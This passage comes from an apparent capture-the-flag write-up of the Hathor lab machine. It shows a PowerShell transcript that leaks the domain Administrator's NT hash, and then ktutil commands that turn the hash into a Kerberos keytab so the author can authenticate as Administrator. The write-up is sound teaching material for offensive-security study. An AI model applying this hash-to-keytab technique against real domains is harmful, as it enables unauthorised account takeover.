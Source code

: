         Directory: C:\programdata
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        11/10/2022  11:14 PM           6622 0xdf-transcript.txt 
    

And it has the same information after a transcript header:

    
    
    PS C:\programdata> type 0xdf-transcript.txt
    **********************
    Windows PowerShell transcript start
    Start time: 20221110231446
    Username: WINDCORP\bpassrunner
    RunAs User: WINDCORP\bpassrunner
    Configuration Name:                            
    Machine: HATHOR (Microsoft Windows NT 10.0.20348.0)
    Host Application: powershell.exe C:\Get-bADpasswords\Get-bADpasswords.ps1
    Process ID: 25908                              
    PSVersion: 5.1.20348.643                       
    PSEdition: Desktop                             
    PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.20348.643
    BuildVersion: 10.0.20348.643                   
    CLRVersion: 4.0.30319.42000                    
    WSManStackVersion: 3.0
    PSRemotingProtocolVersion: 2.3
    SerializationVersion: 1.1.0.1
    **********************                         
    Transcript started, output file is C:\Programdata\0xdf-transcript.txt
                                                        
    DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
    Sid: S-1-5-21-3783586571-2109290616-3725730865-500
    ...[snip]...
    Owner: S-1-5-21-3783586571-2109290616-3725730865-512 
    Secrets
      NTHash: b3ff8d7532eef396a5347ed33933030f
    ...[snip]...
    

### Kerberos Auth

#### Using ktutil / kinit

I can also use the Linux Kerberos tools to get a ticket as well. I’ll start
with `ktutil`
([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/ktutil.html))
to `add_entry` and save it as a keytab file:

    
    
    oxdf@hacky$ ktutil
    ktutil:  add_entry -p administrator@WINDCORP.HTB -k 1 -key -e rc4-hmac
    Key for administrator@WINDCORP.HTB (hex): b3ff8d7532eef396a5347ed33933030f
    ktutil:  write_kt administrator.keytab
    ktutil:  exit
    